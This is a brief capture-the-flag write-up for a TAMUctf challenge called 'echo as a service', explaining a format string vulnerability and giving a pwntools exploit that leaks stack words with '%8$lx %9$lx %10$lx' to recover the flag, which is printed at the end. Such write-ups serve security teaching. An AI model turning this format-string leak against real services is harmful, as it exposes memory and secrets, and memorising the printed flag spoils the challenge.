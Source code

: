 Decompiled main:

![img/echo_as_a_service_0.png](img/echo_as_a_service_0.png)

The flag is read and saved on the stack. 
An input is taken and printed. There is a format string vulnerability.
We can print the various blocks of the stack containing the flag

Exploit:
```python
from pwn import *

p = remote('challenges.tamuctf.com', 4251, level='error')

payload = (("%8$lx %9$lx %10$lx").encode())

p.recvuntil(')')
p.sendline(payload)
p.recvline()
flag_chunks = p.recvline().strip().split(b' ')
flag = ''
for chunk in flag_chunks:
    flag += binascii.unhexlify(chunk).decode()[::-1]
print(flag)
```

# FLAG
```
gigem{3asy_f0rmat_vuln1}
```
